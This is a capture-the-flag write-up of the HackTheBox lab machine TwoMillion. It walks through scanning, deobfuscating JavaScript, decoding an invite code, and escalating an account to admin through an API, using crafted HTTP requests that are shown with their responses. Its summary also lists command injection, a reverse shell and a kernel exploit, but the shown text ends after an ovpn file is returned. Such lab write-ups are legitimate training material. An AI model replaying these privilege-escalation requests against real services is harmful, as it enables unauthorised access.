---
tags:
  - CVE-2023-0386
group: Linux
---


- Machine : https://app.hackthebox.com/machines/TwoMillion
- Reference : https://0xdf.gitlab.io/2023/06/07/htb-twomillion.html
- Solved : 2024.12.23. (Mon) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Discovered open ports 22 (SSH) and 80 (HTTP) with domain name `2million.htb`.
    - **HTTP Service**:
        - Explored the website and identified an invite code system, reverse-engineered JavaScript functions, and extracted endpoints to generate an invite code.
        - Used the generated invite code to register and gain access to additional APIs.
        
2. **Web Exploitation**
    - **API Abuse**:
        - Identified admin-specific API endpoints.
        - Exploited a misconfigured `/api/v1/admin/settings/update` API to elevate a non-admin user to an admin by sending crafted JSON payloads.
    - **Command Injection**:
        - Exploited `/api/v1/admin/vpn/generate` to inject system commands using a crafted username field and obtained a reverse shell as `www-data`.
        
3. **Privilege Escalation**
    - **User Enumeration**:
        - Found `.env` file containing database credentials and identified a valid local user (`admin`).
        - Used credentials to switch to the `admin` user.
    - **Kernel Exploitation**:
        - Identified the vulnerable kernel version (5.15.70) susceptible to CVE-2023-0386 (OverlayFS Privilege Escalation).
        - Transferred and compiled a public PoC exploit.
        - Successfully exploited the vulnerability to gain a root shell.

### Key Techniques:

- **API Abuse**: Enumerated and exploited APIs to elevate privileges and inject commands.
- **Reverse Shell**: Gained initial access through command injection.
- **Kernel Exploitation**: Used CVE-2023-0386 (OverlayFS) to escalate privileges to root.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.221
Performing quick port scan on 10.10.11.221...
Found open ports: 22,80
Performing detailed scan on 10.10.11.221...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-20 04:11 EST
Nmap scan report for 10.10.11.221
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

- 2 ports are open : ssh(22), http(80)
- Domain name seems to be `2million.htb`. Let's add this to `/etc/hosts`

### http(80)



The main page looks like an old `HacktheBox` prototype or initial version webpage.
It has login page. Let's visit it.


It's a login page taking username and password.
It doesn't have a function to sign-up, but has "Forget password" page.
But it's not functioning.



It's responding with "If the user exists" information.
Let's visit this login page later if I can find any valid username clues.

On the "Join" tab, I can find another input vector page.


I think this is doing a sign-up function that we looked for from the login page.
It requires "Invite Code", but I don't have any clue about the it.
Let's capture the request with `Burpsuite`.

```http
POST /api/v1/invite/verify HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 9
Origin: http://2million.htb
Connection: keep-alive
Referer: http://2million.htb/invite
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt

code=test
```

Plus, I opened a developer panel on the browser, and captured responded pages.



Among these `javascript` files, I opened and beautify `inviteapi.min.js`.

```javascript
eval(function(p, a, c, k, e, d) {
    e = function(c) {
        return c.toString(36)
    };
    if (!''.replace(/^/, String)) {
        while (c--) {
            d[c.toString(a)] = k[c] || c.toString(a)
        }
        k = [function(e) {
            return d[e]
        }];
        e = function() {
            return '\\w+'
        };
        c = 1
    };
    while (c--) {
        if (k[c]) {
            p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c])
        }
    }
    return p
}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}', 24, 24, 'resp6onse|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'), 0, {}))
```

The code is quite complicated. Instead, I can find two interesting strings; `verifyInviteCode|makeInviteCode`
I think these are javascript functions.
Let's call `makeInviteCode()` function using browser developer tool.



It looks like this function returns `ROT13` encrypted strings;

```javascript
data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr"
enctype: "ROT13"
```

Let's decrypt the string;



The decrypted text is;
"In order to generate the invite code, make a POST request to /api/v1/invite/generate"
Let's make a POST request to `/api/v1/invite/generate` using `curl`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"VTNRME4tNjdWVlUtNUtSTTctNTk3UUo=","format":"encoded"}}
```

It creates a code : `VTNRME4tNjdWVlUtNUtSTTctNTk3UUo=`



This code is not working. Instead, let's decode it into a string;

```bash
┌──(kali㉿kali)-[~/htb]
└─$ echo 'VTNRME4tNjdWVlUtNUtSTTctNTk3UUo=' | base64 -d
U3Q0N-67VVU-5KRM7-597QJ 
```

I tried `U3Q0N-67VVU-5KRM7-597QJ`, and it worked!



With the created credential, I could login to the web.



Among the menus, `Access` has a only valid link.



Let's click the link.



It's led to a VPN connection page.
When I click `Connection Pack` button, the request captured is as follows;

```http
GET /api/v1/user/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1
```

The redirected page is `/api/v1/user/vpn/generate`.
Then, it downloads a `ovpn` file as we are doing in HTB platform.


It doesn't have any unique information besides VPN connection.
Let's list the APIs with `Burpsuite repeater`.


# Shell as `www-data`

### Exploit with APIs

First, let's check `/api`.

```http
GET /api HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1

====

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:20:59 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 36

{"\/api\/v1":"Version 1 of the API"}
```

It says `/api/v1` exists which is version 1 of the API.
Let's try the same with `/api/v1`.

```http
GET /api/v1 HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:25:27 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 800

{"v1":{"user":{"GET":{"\/api\/v1":"Route List","\/api\/v1\/invite\/how\/to\/generate":"Instructions on invite code generation","\/api\/v1\/invite\/generate":"Generate invite code","\/api\/v1\/invite\/verify":"Verify invite code","\/api\/v1\/user\/auth":"Check if user is authenticated","\/api\/v1\/user\/vpn\/generate":"Generate a new VPN configuration","\/api\/v1\/user\/vpn\/regenerate":"Regenerate VPN configuration","\/api\/v1\/user\/vpn\/download":"Download OVPN file"},"POST":{"\/api\/v1\/user\/register":"Register a new user","\/api\/v1\/user\/login":"Login with existing user"}},"admin":{"GET":{"\/api\/v1\/admin\/auth":"Check if user is admin"},"POST":{"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"},"PUT":{"\/api\/v1\/admin\/settings\/update":"Update user settings"}}}}
```

It shows all existing APIs including `/api/v1/invite/generate` which we used earlier.
Let's focus on `admin`'s APIs.

```json
"admin":
	{
		"GET":
		{
			 "\/api\/v1\/admin\/auth":"Check if user is admin"
		},
		"POST":
		{
			"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"
		},
		"PUT":
		{
			"\/api\/v1\/admin\/settings\/update":"Update user settings"
		}
	}
```

Let's test the first API : `/api/v1/admin/auth`

```http
GET /api/v1/admin/auth HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:32:43 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 17

{"message":false}
```

It says I'm not an admin currently.
Let's try the second : `/api/v1/admin/vpn/generate`

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1

===

HTTP/1.1 401 Unauthorized
Server: nginx
Date: Sun, 22 Dec 2024 20:34:13 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
```

I cannot create an admin's vpn since I'm not an admin.
Let's try the last : `/api/v1/admin/settings/update`

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:36:17 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 53

{"status":"danger","message":"Invalid content type."}
```

It says the `content-type` is invalid while I didn't include `content-type` in the request header.
Let's add it with `application/json`.

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1
Content-Type: application/json

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:57:13 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 56

{"status":"danger","message":"Missing parameter: email"}
```

This time, it returns a message that there's a missing parameter : `email`.
Let's add my email as data and try again.

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 31

{"email":"bokchee@bokchee.com"}

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:58:21 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 59

{"status":"danger","message":"Missing parameter: is_admin"}
```

Again, it says `is_admin` is missing. I guess that the type of it would be Boolean.
Let's add it.

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 51

{"email":"bokchee@bokchee.com",
"is_admin":"True"}

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:59:33 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 76

{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}
```

It says that `is_admin`'s data should be either 0 or 1.
Let's set 1 on `is_admin` parameter.

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 46

{"email":"bokchee@bokchee.com",
"is_admin":1}

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:00:20 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 43

{"id":13,"username":"bokchee","is_admin":1}
```

I think the API worked, and my account is admin now.
Now, let's check if my current account is admin with previously used api : `/api/v1/admin/auth`

```http
GET /api/v1/admin/auth HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:01:56 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 16

{"message":true}
```

Now I changed my account as admin.
I think I can use my current account to generate API key with the following api : `/api/v1/admin/vpn/generate` with POST method.
(`Content-Type` should be added here as well.)

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Content-Type: application/json
Upgrade-Insecure-Requests: 1

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:22:18 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 59

{"status":"danger","message":"Missing parameter: username"}
```

I need `username` parameter at this time.
Let's add it.

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Content-Length: 23

{"username": "bokchee"}

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:23:20 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 10832

client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv
<SNIP>
```

It returns `ovpn` file content.
